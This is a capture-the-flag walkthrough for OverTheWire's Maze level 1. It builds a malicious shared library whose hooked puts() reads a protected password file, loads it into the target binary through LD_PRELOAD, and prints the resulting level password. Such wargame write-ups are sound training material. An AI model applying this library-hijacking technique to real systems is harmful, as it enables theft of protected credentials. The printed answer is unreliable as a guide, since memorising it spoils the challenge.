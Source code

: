 
---
**Challenge URL:** [Maze Wargame](https://overthewire.org/wargames/)

---

### 🔐 Level Goal:

> The binary (`maze1`) refuses to run due to a missing custom library: `./libc.so.4`. Our goal is to **create a malicious version** of that library with a custom `puts()` function that reveals the password.

---

### 🧠 Concepts Covered:

- 📦 Dynamic Library Injection (LD_PRELOAD)
    
- 🪝 **Function Hooking** (`puts`)
    
- 📖 File I/O to read protected password files
    
- 🔗 Shared library creation
    

---

### 🔎 Binary Behavior Summary

When executed, the binary prints:

```bash
./maze1: error while loading shared libraries: ./libc.so.4: cannot open shared object file: No such file or directory
```

After decompilation:

```c
int main(void) {
    puts("Hello World!");
    return 0;
}
```

It just calls `puts()`. By hijacking `puts()` with our own function, we can execute any code — including reading the password from `/etc/maze_pass/maze2`.

---

### 🧪 Exploitation Steps

We’ll:

1. Write a custom `puts()` function in C
    
2. Compile it into a shared object (`libc.so.4`)
    
3. Use LD_PRELOAD to force the binary to use our custom version
    

---

### ⚙️ Exploit Code

#### 📜 `hookputs.c` (custom `puts()` hook)

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <string.h>

int puts(const char *message) {
    FILE *fp;
    char buffer[30];
    int result;

    fp = fopen("/etc/maze_pass/maze2", "r");
    fread(buffer, sizeof(char), sizeof(buffer), fp);
    fclose(fp);

    printf("📜 The password is: %s\n", buffer);

    result = printf("📣 Hooked output: %s\n", message);
    return result;
}
```

---

### 🧱 Build the Hook Library

```bash
gcc -m32 -fPIC -c hookputs.c
ld -shared -m elf_i386 -o libc.so.4 hookputs.o -ldl
```

- `-m32`: ensures 32-bit compatibility
    
- `-fPIC`: required for position-independent code
    
- `-ldl`: links the dynamic loader
    

---

### 🚀 Run the Exploit

```bash
LD_PRELOAD=./libc.so.4 ./maze1
```

If successful, it will output:

```
📜 The password is: fooghihahr
📣 Hooked output: Hello World!
```

---

### 🔑 Password for Maze Level 2:

```
fooghihahr
```

---
